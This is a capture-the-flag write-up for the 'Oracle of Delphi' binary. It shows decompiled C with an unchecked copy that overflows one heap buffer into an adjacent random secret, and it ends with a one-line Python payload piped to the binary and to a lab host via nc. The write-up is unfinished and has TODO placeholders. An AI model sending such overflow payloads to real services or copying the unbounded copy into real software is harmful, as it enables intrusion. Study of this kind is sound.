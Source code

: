 # Getting the challenge

The zip file contains a Dockerfile with some files that describes the service. One of the extra files is a binary that is running with a flag.txt placeholder. This is enough to test everything locally. If your environment differs significantly from the docker image, you can extract the libc from it and use it locally.

Upon running the binary, it asks 2 questions.

![](screenshots/1.png)

# Checking the logic

Ghidra can recover the code ([delphi.c](workdir/delphi.c)) relatively well. 

```c
void FUN_00101341(void *param_1)
{
  size_t __n;
  long in_FS_OFFSET;
  char local_518 [1288];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_518,0x500,stdin);
  __n = strlen(local_518);
  memcpy(param_1,local_518,__n);
  // REDACTED
  return;
}

undefined8 FUN_001013bf(void)
{
  // REDACTED
  local_68 = (char *)malloc(0x10);
  local_60 = (char *)malloc(0x20);
  memset(local_60,0,0x20);
  getrandom(local_60,0x20,0);
  for (local_7c = 0; local_7c < 0x20; local_7c = local_7c + 1) {
    if ((local_60[local_7c] == '\0') || (local_60[local_7c] == '\n')) {
      local_60[local_7c] = '*';
    }
  }
  puts("Welcome to the Oracle of Delphi!");
  puts("Hic es forsit ut tuum futurum invenias.\n");
  puts(
      "I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future."
      );
  puts("If not, shall the gods have mercy on your soul.\n");
  printf("What shall I think of (ie What\'s my favorite instrument)? ");
  FUN_00101341(local_68);
  printf("So you asked: ");
  puts(local_68);
  puts("Okay, now that\'s a good one. Let me think...");
  sleep(2);
  printf("Got it. Any clue what it is I had in mind? ");
  fgets(local_48,0x21,stdin);
  iVar1 = strncmp(local_48,local_60,0x20);
  if (iVar1 == 0) {
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    local_78 = (char *)0x0;
    local_70 = 0;
    tVar2 = time((time_t *)0x0);
    srand((uint)tVar2);
    local_58 = fopen("flag.txt","r");
    if (local_58 == (FILE *)0x0) {
      puts("Error: flag.txt not found. Contact an admin.");
                    // WARNING: Subroutine does not return
      exit(1);
    }
    while (local_50 = getline(&local_78,&local_70,local_58), local_50 != -1) {
      printf("%s",local_78);
    }
    fclose(local_58);
    if (local_78 != (char *)0x0) {
      free(local_78);
    }
  }
  else {
    puts("Nope, that\'s not it. You\'re doomed.");
  }
  // REDACTED
}

```

FUN_00101341 is used to read some input to a large enough buffer, then it copies strlen(buffer) amount into it's parameter deestination. 

FUN_001013bf is presumably the main function, it is allocating 2 buffers (size 0x10 and 0x20) with malloc and randomizing the latter with some filtering. The former is passed to the FUN_00101341 read function to hould our input. A third smaller local buffer is used to read some bytes in the second question, and this value is compared to the random one. Upon successfully guessing the random number, the flag is given out.

# The problem

The reader function is ignoring the destination buffer size and overflow can occur. This can overwrite the random part. 

Pwntools can be used to generate some cyclic strings to easily spot memory patterns.

![](screenshots/2.png)

The program can be stopped on [malloc](https://cplusplus.com/reference/cstdlib/malloc/) and [strncmp](https://cplusplus.com/reference/cstring/strncmp/) to check the memory layout. 

![](screenshots/5.png)

The strncmp parameters will be passed in `$rdi` (guess), `$rsi` (random), `$rdx` (length).

During a normal run, at `$rsi-32` the input string for the first question can be seen, and at `$rsi`, the randomly generated variable.

![](screenshots/3.png)

During a run with overflow, the random is overwritten with the given input.

![](screenshots/4.png)

# Exploit

The allocated heap structure is deterministic, always allocating the same size in the same order.

The first question can overwrite the random with known value and the second question can use the known value. There is no free at all, so corrupting the heap structure is not a problem.

```bash
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | ./delphi
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | nc 10.10.8.10 55364
```

![](screenshots/8.png)

TODO: replace screenshot from live environment

# Flag

TODO: add flag from live env

# Pwndbg

Pwndbg can be used for better experience.

For example more verbose and easier to read outputs.

![](screenshots/6.png)

Heap information.

![](screenshots/7.png)